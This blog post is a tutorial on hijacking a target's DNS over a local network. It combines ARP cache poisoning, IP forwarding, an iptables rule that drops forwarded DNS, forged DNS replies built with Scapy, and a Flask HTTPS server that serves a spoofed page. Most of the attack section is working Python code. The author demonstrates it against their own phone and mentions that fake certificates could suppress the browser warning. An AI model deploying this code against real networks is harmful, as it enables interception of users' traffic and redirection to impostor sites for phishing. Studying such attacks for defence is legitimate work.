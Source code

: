 ```yaml
---
title: "Performing DNS Hijacking to Redirect Users to a Fake Website"
date: 2019-08-22
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Hijacking
  - ARP Spoofing
  - Scapy
---
```


# Introduction
In my previous post, we had a look at poisoning ARP caches which allowed us to intercept messages
being sent to and from the target. In this post, we utilize that to intercept all DNS requests of the
target and provide a spoofed reply pointing to a web server running on our machine.

# DNS
Everytime a user types in an URL into the browser or any web client, the client resolves or "translates" the URL into an IP address. It does this to identify where to send the corresponding HTTP request. To translate the URL into an IP address, the following steps take place:

1. The browser first queries the OS with the request asking if it knows the IP address,
2. the OS checks it's local cache and the HOSTS file which contains mappings between URLs and IP address,
3. if the OS does not find any mappings, it will query the local DNS resolver which is usually provided by your ISP,
4. the DNS resolver will also check if it has an answer. If it doesn't, it will recursivelly query
the nameservers till it receives a response from the nameserver responsible for the domain.  

Once the IP address is retreived, the client sends the HTTP request and displays the page returned.

# DNS Spoofing
Since we need the target's traffic to pass through our system, we need to poison both the router's and target's ARP cache. This can be done in the following manner.

```python
# Poison router's cache (Scapy will automatically fill in the ethernet frame with our MAC)
send(ARP(op=2, psrc=g_target_ip, pdst=g_router_ip, hwdst=router_mac), verbose=0)

# Poison target's cache
send(ARP(op=2, psrc=g_router_ip, pdst=g_target_ip, hwdst=target_mac), verbose=0)

# Sleep to prevent flooding
time.sleep(2)
```

Once we poison the ARP caches, the target's traffic passes through our system. Now we can control the traffic, i.e., we can decide on what to forward and what not to. By stopping all DNS queries from the target, we can then send a spoofed DNS response pointing to our system. This will cause the target to send an HTTP request to our machine. We can stop forwarding all DNS messages in the following manner.

```python
print("Enabling IP forwarding")
# Check to see if we are on linux
if (platform.system() == "Linux"):
	# Enable IP forwarding
	ipf = open('/proc/sys/net/ipv4/ip_forward', 'r+')
	ipf_read = ipf.read()
	if (ipf_read != '1\n'):
		ipf.write('1\n')
	ipf.close()

	# Disable DNS Query forwarding
	firewall = "iptables -A FORWARD -p UDP --dport 53 -j DROP"
	Popen([firewall], shell=True, stdout=PIPE)
```

Now, since all the DNS messages are dropped, we need to provide the target with a spoofed DNS response. Failing to do so can lead to DOS since the target will not be able to resolve the URL to any IP address. We can send a spoofed DNS answer in the following manner.

```python
if (pkt[IP].src == g_target_ip and
		pkt.haslayer(DNS) and
		pkt[DNS].qr == 0 and				# DNS Query
		pkt[DNS].opcode == 0 and		# DNS Standard Query
		pkt[DNS].ancount == 0				# Answer Count
		):

	print("Sending spoofed DNS response")

	if (pkt.haslayer(IPv6)):
		ip_layer = IPv6(src=pkt[IPv6].dst, dst=pkt[IPv6].src)
	else:
		ip_layer = IP(src=pkt[IP].dst, dst=pkt[IP].src)

	# Create the spoofed DNS response (returning back our IP as the answer instead of the endpoint)
	dns_resp =  ip_layer/ \
				UDP(
					dport=pkt[UDP].sport,
					sport=53
					)/ \
				DNS(
					id=pkt[DNS].id,				# Same as query
					ancount=1,						# Number of answers
					qr=1,									# DNS Response
					ra=1,									# Recursion available
					qd=(pkt.getlayer(DNS)).qd,		# Query Data
					an=DNSRR(
						rrname=pkt[DNSQR].qname,	# Queried host name
						rdata=g_server_ip,				# IP address of queried host name
						ttl = 10
						)
					)

	# Send the spoofed DNS response
	print(dns_resp.show())
	send(dns_resp, verbose=0)
	print(f"Resolved DNS request for {pkt[DNS].qd.qname} by {g_server_ip}")
```

In the above code, *pkt* holds the DNS request intercepted by our machine. Using it, we send a DNS response saying that the URL maps to our IP address. Now since the target will start sending HTTP/HTTPS request to our machine, we need to respond to those with our webpage. A simple demonstration can be shown using Flask in the following manner.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def spoofed_page():
    return '<h1 align="center">You have been pwned!</h1>'

@app.route('/<path:dummy>')
def spoofed_dir(dummy):
	return '<h1 align="center">You have been pwned!</h1>'

if __name__ == '__main__':
	app.run(host='192.168.137.1', ssl_context='adhoc', port=443)
```
the host argument must be set to the IP address on which the webserver is being run on. Now any page accessed by the target will be return the html given above.

# Results
I am running the dns-hijacker and the web server on a Raspberry PI 3B+ with the target as my iPhone.

![dns-hijacker](../../assets/videos/dns-hijacker.gif)

Once the DNS hijacker and the web server are started, sending a request from my iPhone results in the following.

![pwned](../../assets/videos/pwned.gif)

We can see that a GET request to `victoria.dev` was successfully redirected to our webpage. yaaa. Note that the warning can be removed by supplying phony certificates, but that topic is for another post. Bye.

The full script is available on my github [page][page].

[page]: https://github.com/venkat-abhi/dns-redirector